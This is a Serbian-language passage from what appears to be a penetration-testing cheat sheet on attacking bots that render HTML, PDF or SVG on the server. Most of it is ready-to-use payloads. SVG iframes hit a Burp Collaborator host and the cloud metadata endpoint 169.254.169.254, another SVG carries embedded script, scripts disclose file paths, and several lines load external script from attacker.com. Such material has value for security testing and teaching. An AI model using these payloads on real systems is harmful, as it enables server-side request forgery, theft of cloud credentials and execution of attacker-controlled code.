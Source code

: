 ### SVG

Bilo koji od prethodnih ili sledećih payloada može se koristiti unutar ovog SVG payloada. Jedan iframe koji pristupa Burpcollab poddomenu i još jedan koji pristupa metadata endpointu su dati kao primeri.

```markup
<svg xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" class="root" width="800" height="500">
<g>
<foreignObject width="800" height="500">
<body xmlns="http://www.w3.org/1999/xhtml">
<iframe src="http://redacted.burpcollaborator.net" width="800" height="500"></iframe>
<iframe src="http://169.254.169.254/latest/meta-data/" width="800" height="500"></iframe>
</body>
</foreignObject>
</g>
</svg>


<svg width="100%" height="100%" viewBox="0 0 100 100"
xmlns="http://www.w3.org/2000/svg">
<circle cx="50" cy="50" r="45" fill="green"
id="foo"/>
<script type="text/javascript">
// <![CDATA[
alert(1);
// ]]>
</script>
</svg>
```

Možete pronaći mnogo **drugih SVG payloada** na [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)

### Otkrivanje putanje

```markup
<!-- If the bot is accessing a file:// path, you will discover the internal path
if not, you will at least have wich path the bot is accessing -->
<img src="x" onerror="document.write(window.location)" />
<script> document.write(window.location) </script>
```

### Učitajte spoljni skript

Najbolji način za iskorišćavanje ove ranjivosti je zloupotreba ranjivosti kako bi se naterao bot da učita skriptu kojom vi upravljate lokalno. Zatim ćete moći da lokalno promenite payload i naterate bota da ga učita sa istim kodom svaki put.

```markup
<script src="http://attacker.com/myscripts.js"></script>
<img src="xasdasdasd" onerror="document.write('<script src="https://attacker.com/test.js"></script>')"/>
```
